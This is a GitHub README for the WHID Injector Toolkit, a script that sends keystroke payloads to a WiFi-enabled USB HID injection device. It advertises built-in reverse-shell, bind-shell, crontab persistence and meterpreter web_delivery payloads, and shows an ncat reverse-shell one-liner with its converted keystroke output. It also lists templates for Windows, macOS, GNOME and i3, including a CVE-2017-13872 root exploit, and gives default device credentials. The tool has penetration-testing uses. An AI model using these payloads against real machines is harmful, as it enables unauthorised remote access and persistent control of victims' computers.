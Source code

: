 # WHID Injector Toolkit
What is it ? It's a simple script to send commands (french keyboard) from your terminal to the WHID Injector. It will automatically convert the "azerty" to "qwerty" format if you're lazy. Furthermore it has builtins payload such as reverse-shell and bind-shell.

![whid-picture](https://github.com/swisskyrepo/WHID_Toolkit/blob/master/screenshots/whid.jpg?raw=true)

**Warning** : Newest version of WHID Toolkit expect the WHID to have a firmware in the prefered language, alternatively you can force the french keyboard with the english firmware using the `--force` arguments. For more customization informations go to swisskyrepo.github.io .

Where to buy a WHID Injector ? I got mine from [Aliexpress](https://www.aliexpress.com/item/Cactus-Micro-compatible-board-plus-WIFI-chip-esp8266-for-atmega32u4/32318391529.html)

## How to start
 1. Connect to the Access Point with the SSID "**Exploit**" with a password of "**DotAgency**".   
 2. Open a web browser pointed to "**http://192.168.1.1**"   
    > The default administration username is "**admin**" and password "**hacktheplanet**".       

 3. Remember to upgrade the firmware you will find the latest version in this repository  

More info on the official Github : https://github.com/whid-injector/WHID


## How to use the script
```c
python3 WHIDInjector.py -v --host 127.0.0.1 --port 4242 --payload payloads/windows.txt -h                 
usage: WHIDInjector.py [-h] [-v] [--host [HOST]] [--port [PORT]]
                       [--user [USER]] [--pass [PASS]] [--panel [PANEL]]
                       [--payload [PAYLOAD]]

optional arguments:
  -h, --help           show this help message and exit
  -v                   Verbosity of the output
  --host [HOST]        Host reverse-shell
  --port [PORT]        Port reverse-shell
  --user [USER]        Wifi Panel username
  --pass [PASS]        Wifi Panel password
  --panel [PANEL]      Wifi Panel password
  --payload [PAYLOAD]  Payload template
```

Targeting a Windows OS
```c
python3 WHIDInjector.py -v --host 127.0.0.1 --port 4242 --payload payloads/windows.txt
```

Send a simple reverse-shell payload
```
$ python3 WHIDInjector.py -v --host 127.0.0.1 --port 4444
     -------------------------------------------------------------
      WHID injector - You need to be connected to the Exploit AP
     -------------------------------------------------------------
                   __   °
                 <(o )___
                  ( ._> /
                   `---'                      @pentest_swissky

Enter a payload, eg: bash -c 'nohup ncat 127.0.0.1 4242 -e $SHELL &'
-------------------------------------------------------------------
>>> reverse
Payload:
Rem:Default Payload
Press:130+195
CustomDelay:1000
Print:bqsh 6c 4nohup ncqt !@&<)<)<! $$$$ 6e ]SHELL 14
CustomDelay:1000
Press:176

Sending payload to http://192.168.1.1/runlivepayload
```

## Payloads and commands
| Commands       | Description                           |
| :------------- | :-------------                        |
| bind           | initiate a bind shell on results.port |
| reverse        | initiate a reverse shell on results.host and results.port |
| crontab        | set up a crontab reverse shell on results.host and results.port |
| meterpreter [https://YOUR_SERVER_IP:4646/posh-payload] | use exploit/multi/script/web_delivery with a posh-payload    |
| send some text | send the specified text              |
| h              | help                                 |
| q              | quit                                 |

You can change the options with `SET option_name option_value`
```c
>>> set host 192.168.1.12
>>> set port 4444
```

At the moment the following templates are available, feel free to add more:

| Template | Description |
| :------------- | :------------- |
| payloads/osx_high_sierra_root.txt | CVE-2017-13872 |
| payloads/osx.txt     | execute a command with [Cmd]+[Space] |
| payloads/windows.txt | execute a command with [Windows]+[R] |
| payloads/i3.txt      | execute a command with [Windows]+[Enter] |
| payloads/gnome.txt | execute a command with [Alt]+[F2] |
| payloads/default.txt | default behavior is the gnome command |

NOTE: The i3 payload uses the [Windows] key as the default modifier, some people prefer to use [CTRL]
